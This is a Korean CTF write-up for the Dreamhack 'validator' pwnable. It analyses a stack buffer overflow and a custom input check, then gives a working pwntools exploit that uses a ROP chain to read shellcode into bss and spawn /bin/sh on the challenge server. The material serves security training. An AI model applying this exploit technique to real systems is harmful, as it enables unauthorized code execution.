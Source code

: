 dreamhack validator
============

## 1. 보호 기법 확인

<img width="811" height="241" alt="image" src="https://github.com/user-attachments/assets/0c411c0f-d011-4e7c-b0e6-a7de4f3667a6" />

모든 보호 기법이 꺼져있다.


## 2. 코드 분석

<img width="640" height="203" alt="image" src="https://github.com/user-attachments/assets/35fea755-538f-4612-8366-1cbb772c0536" />

* `read(0, s, 0x400)`때문에 버퍼 오버플로우가 발생한다.
* `validate(s, 128)` 함수를 호출한다.


---------------

<img width="723" height="355" alt="image" src="https://github.com/user-attachments/assets/67aca9a4-f2ba-4650-b5a5-b48862457331" />

* 문자열의 처음 열 글자는 DREAMHACK!이어야한다.
* 문자열의 12번째 글자부터 128번째 글자 까지는 s[i] = s[i+1] + 1 이어야 한다.
* 마지막 128번째 글자는 129번째 글자와 비교해서 s[i] = s[i+1] + 1 조건을 만족해야 한다.




## 3. 익스플로잇

NX 보호 기법이 꺼져 있어서 쉘 코드를 사용할 수 있다. 문제에서 주어진 커널 버전으로는 NX 비활성화 시 읽기 권한이 있는 메모리에 실행 권한이 존재하므로 
bss(Beginning of Symbol Segment) 영역에서 쉘 코드를 쓰고 ret를 bss 주소로 변조하는 방법을 사용할 수 있다.   

또 validator_server의 조건을 확인하면 큰 숫자부터 내림차순으로 1바이트씩 payload에 추가하는 방식으로 작성할 수 있다는 것을 짐작할 수 있다.

### 오프셋 구하기

<img width="793" height="508" alt="image" src="https://github.com/user-attachments/assets/cf7242a8-61b3-4839-94ef-9b06cc4819c5" />


```
   0x0000000000400658 <+30>:    lea    rax,[rbp-0x80]		    # rax = s
   0x000000000040065c <+34>:    mov    edx,0x400		        # edx = 0x400 
   0x0000000000400661 <+39>:    mov    rsi,rax				      # rsi = s
   0x0000000000400664 <+42>:    mov    edi,0x0				      # edi = 0
   0x0000000000400669 <+47>:    call   0x400470 <read@plt>	# read(0, s, 0x400)
   0x000000000040066e <+52>:    lea    rax,[rbp-0x80]
```

### 익스플로잇 코드

```
from pwn import *

p = remote("host8.dreamhack.games", 9383)
e = ELF("validator_server")
r = ROP(e)

context.arch = "amd64"

shellcode = asm(shellcraft.execve("/bin/sh", 0, 0))

read_plt = e.plt["read"]
pop_rdi = r.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi_pop_r15 = r.find_gadget(['pop rsi', 'pop r15', 'ret'])[0]
pop_rdx = r.find_gadget(['pop rdx', 'ret'])[0]
bss = e.bss()

payload = b"DREAMHACK!"
list = []

for i in range(118, -1, -1):
        list.append(i)

payload += bytes(list)
payload += b"B"*7

payload += p64(pop_rdi) + p64(0)
payload += p64(pop_rsi_pop_r15) + p64(bss) + p64(0)
payload += p64(pop_rdx) + p64(len(shellcode)+1)
payload += p64(read_plt)

payload += p64(bss)

sleep(0.5)
p.send(payload)
sleep(0.5)
p.send(shellcode)

p.interactive()
```


### 실행 결과

<img width="1038" height="456" alt="image" src="https://github.com/user-attachments/assets/61462b65-0bc0-4e1d-8b19-fc4ed2315f63" />






